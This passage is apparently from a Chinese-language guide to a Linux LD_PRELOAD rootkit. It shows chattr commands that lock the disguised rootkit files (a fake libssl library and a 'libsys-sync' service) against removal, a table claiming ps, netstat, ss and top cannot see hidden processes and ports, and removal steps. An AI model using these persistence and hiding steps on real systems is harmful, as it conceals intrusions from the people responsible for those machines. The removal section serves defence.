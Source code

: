      ```
     bash复制编辑chattr +i /usr/lib/.hidden/libssl.so.1.1
     chattr +i /etc/systemd/system/libsys-sync.service
     ```

     ------

     ## 

     ## 📊 功能验证

     | 工具        | 是否能看到被隐藏内容 |
     | ----------- | -------------------- |
     | `ps aux`    | ❌ 看不到指定 PID     |
     | `ls /proc`  | ❌ 看不到指定目录     |
     | `netstat`   | ❌ 看不到指定端口     |
     | `ss -tulpn` | ❌ 看不到指定端口     |
     | `top`       | ❌ 看不到指定命令     |

     

     > ⚠️ 如果你静态编译了 `ps`（不依赖 glibc），则该 rootkit无法生效。

     ------

     ## 🧯 清除方式（防御）

     ```
     bash复制编辑chattr -i /etc/ld.so.preload
     rm -f /etc/ld.so.preload /usr/lib/.hidden/libssl.so.1.1
     systemctl disable libsys-sync.service
     rm -f /etc/systemd/system/libsys-sync.service
     ```